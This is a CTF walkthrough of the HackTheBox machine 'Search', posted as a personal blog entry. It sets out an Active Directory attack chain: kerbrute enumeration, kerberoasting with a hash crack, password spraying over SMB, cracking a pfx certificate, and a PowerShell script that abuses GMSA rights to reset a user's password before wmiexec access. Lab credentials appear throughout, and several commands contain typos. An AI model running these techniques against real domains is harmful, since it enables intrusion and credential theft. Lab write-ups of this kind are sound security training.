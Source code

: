 ```yaml
---
title: Escape @ HackTheBox  
date: 2025-04-17 13:00:00 
categories: [HTB Machines,Windows Machines]
tags: [active directory,domain controller,responder,ntlm,SPN,DCSync,hack the box,GMSA,adc,kerberoasring]     # TAG names should always be lowercase
comments: true
image:
  path: /./media/post4/Search.png
---
```

Hello, this my walkthroght version about the Search Box in @HTB
## Enumeration
### nmap
```shell
sudo nmap -sC -sV -p$ports -oN tcp_scan $IP
```
couple of ports indicated the target is a domain controller hosting the domain (search.htb)
```shell
echo '10.1O.10.129 search.htb' | suod tee -a /etc/hosts
```
the DC also hosts an IIS web server port 443 so we'll start by that.
### IIS Server
looking at the IIS server that hosts the company search.htb website, we coul find some sensitive information disclosure in one of the hosted images :
![screen_1](/./media/post4/inf_disc.png)
- the account Hope Sharp has a password of: **IsolationIsKey?**

the server also has some interesting endpoint that were found using gobuster :
```shell
gobuster dir -u http://search.htb/ -w /usr/share/SecLists-master/Discovery/Web-Content/Web-Servers/IIS.txt

/certenroll/          (Status: 403) [Size: 1233]
/certsrv/             (Status: 401) [Size: 1293]
/certsrv/mscep/mscep.dll (Status: 401) [Size: 1293]
/certsrv/mscep_admin  (Status: 401) [Size: 1293]
/images/              (Status: 403) [Size: 1233]
```
but access to this endpoint (ex: /staff) was denied and requested some sort of authentication :
![screen_2](/./media/post4/staff.png)
## Gaining a foothold 
after this i have created a list of possible usernames using a python script :
![screen_3](/./media/post4/pss_names.png)
then we can test those usernames if they are valid or not using **kerberute** tool :
```shell
sudo /opt/kerbrute/dist/kerbrute_linux_amd64 userenum --dc 10.10.11.129 -d search.htb ./possible_usernames.txto
```
we can siee that username **hope.sharp** was valid, so for now the we have got the credentials of the username **hope.sharp : IsoloationIsKey?**

Let's try to dump the LDAP database using ldapdomaindump. Remember, any user in Active Directory Domain Services (ADDS) can enumerate and dump domain objects, regardless of their privilege level.
```shell
ldapdomaindump -u search.htb\\hope.sharp -p IsolationIsKey 10.10.11.129
```
looking at the domain users we found an interesting service account :
![screen_4](/./media/post4/web_svc.png)
so lets try some kerberoasting, we first use our hope.sharp creds to find the required SPN, for this we’ll use impacket **GetUserSPNs** script.
```shell
impacket-GetUserSPNs search.htb/hope.sharp:IsolationIsKey? -dc-ip 10.10.11.129 -request
<SNIP>
[-] CCache file is not found. Skipping...
$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$117889ac179117edc...
<SNIP>
```
and after we got the **TGS** we’ll crack it using john :
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt tgs.txt 
```
so now we have the password of this service account **web_svc : @3ONEmillionbaby**

after mutiple failed attempts of trying some attack vectors i opted for the password reuse since the web_svc was created by the helpdesk group users
```shell
grep "HelpDesk User" domain_users.grep | awk -F'\t' '{print $3}'
Isabela.Estrada
Keith.Hester
Chanel.Bell
Edgar.Jacobs
Lane.Wu
```
this command gave us all the possible accounts the password reuse may work on, because they are all in the HelpDesk group, so lets try a for loop seeing which account might this work 
```shell
for u in Isabela.Estrada Keith.Hester Chanel.Bell Edgar.Jacobs Lane.Wu; do smbmap -u $u -p @3ONEmillionbaby -d search -H 10.10.11.129 --no-banner --no-color 
```
looks like our user **Edgar.Jacobs** a fan of repeating his password in many accounts ( trust me i do that all the time), throught the SMB Enumeration we can see a folder that could be useful : **RedirectedFolders$** 
```shell
smbclient //search.htb/RedirectedFolders$ -U "Edgar.Jacobs"
```
while searching inside the share, i found the user.txt flag inside sierra.frye account, but not enough permessions to get the file :
```shell
smb: \> ls sierra.frye\
  .                                  Dc        0  Wed Nov 17 20:01:46 2021
  ..                                 Dc        0  Wed Nov 17 20:01:46 2021
  Desktop                           DRc        0  Wed Nov 17 20:08:00 2021
  Documents                         DRc        0  Fri Jul 31 10:42:19 2020
  Downloads                         DRc        0  Fri Jul 31 10:45:36 2020
  user.txt                           Ac       33  Wed Nov 17 19:55:27 2021

                3246079 blocks of size 4096. 767375 blocks available
smb: \> get sierra.frye\user.txt 
NT_STATUS_ACCESS_DENIED opening remote file \sierra.frye\user.txt
```
still looking for something useful i found this interesting file in edgar.jacobs desktop folder :
```shell
mb: \edgar.jacobs\Desktop\> ls
  .                                 DRc        0  Mon Aug 10 06:02:16 2020
  ..                                DRc        0  Mon Aug 10 06:02:16 2020
  $RECYCLE.BIN                     DHSc        0  Thu Apr  9 16:05:29 2020
  desktop.ini                      AHSc      282  Mon Aug 10 06:02:16 2020
  Microsoft Edge.lnk                 Ac     1450  Thu Apr  9 16:05:03 2020
  Phishing_Attempt.xlsx              Ac    23130  Mon Aug 10 06:35:44 2020

                3246079 blocks of size 4096. 767371 blocks available
smb: \edgar.jacobs\Desktop\> get Phishing_Attempt.xlsx 
getting file \edgar.jacobs\Desktop\Phishing_Attempt.xlsx of size 23130 as Phishing_Attempt.xlsx (95.3 KiloBytes/sec) (average 95.3 KiloBytes/sec)
```
i opened the file with libreoffice, and it seemed that the **c** column is password protected, but using the name box and typing C9 i could see sierra.frye password : 
![screen_5](/./media/post4/password.png)
now lets connect to the RedirectedFolders$ share as sierra.frye and get the user.txt.
## PrivEsc
while looking inside sierra.frye folder i noticed some certificate’s backup inside **/Downloads/Backups**
```shell
smb: \sierra.frye\Downloads\Backups\> ls
  .                                 DHc        0  Mon Aug 10 16:39:17 2020
  ..                                DHc        0  Mon Aug 10 16:39:17 2020
  search-RESEARCH-CA.p12             Ac     2643  Fri Jul 31 11:04:11 2020
  staff.pfx                          Ac     4326  Mon Aug 10 16:39:17 2020

                3246079 blocks of size 4096. 767785 blocks available
```
nice, now we upload this cert to firefox certifications and access https://search.htb/staff, but before that the certificate is password-protected so we need some crack, i mean to crack the password :
```shell
python3 `which pfx2john ` staff.pfx  > staff.hash

john --wordlist=/usr/share/wordlists/rockyou.txt staff.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 AVX 4x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:02:39 16.24% (ETA: 13:18:04) 0g/s 16031p/s 16031c/s 16031C/s yusay13..yurirey
0g 0:00:03:38 23.41% (ETA: 13:17:16) 0g/s 16279p/s 16279c/s 16279C/s starr-1..starmagic7681
misspissy        (staff.pfx)     
1g 0:00:05:26 DONE (2025-04-24 13:07) 0.003065g/s 16815p/s 16815c/s 16815C/s missprin1956..missnono
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
the password is **misspissy**
looking at the /staff :
![screen_6](/./media/post4/staff_2.png)
enter sierra.frye creds, after that we’ll get a webshell to the research computer.

now we can start enumerating the domain using sierra.frye user account, and by exploiting sharphound ingestor we could fin this relationship from bloodhound by choosing **Shortest Paths from Owned Principals** :
![screen_7](/./media/post4/bh_1.png)
and the user tristan.davies has a DCSync right over the domain :
![screen_8](/./media/post4/bh_2.png)

sierra.frye is a member of the **ITSEC group**, which has **ReadGMSAPassword** rights on the **BIR-ADFS-GMSA$** group managed service account. This account, in turn, has **GenericAll** rights on tristan.davies ,which has DCSync rights on the domain.

use this code below to retrieve the GMSA Password and use it to force password change of tristian.davies :
```shell
$gmsa = Get-ADServiceAccount -Identity bir-adfs-gmsa -Properties 'msds-managedpassword'
$mp = $gmsa.'msds-managedpassword'
$mp1 = ConvertFrom-ADManagedPasswordBlob $mp
$user = 'BIR-ADFS-GMSA$'
$passwd = $mp1.'CurrentPassword'
$secpass = ConvertTo-SecureString $passwd -AsPlainText -Force
$cred = new-object system.management.automation.PSCredential $user,$secpass
Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity
tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password123'
-force)} -Credential $cred
```
we then connect to tristian.davies using his new creds :

```shell
wmiexec.py 'search/tristan.davies:Password123@10.10.11.129'
```
after this you can easily get the root flag.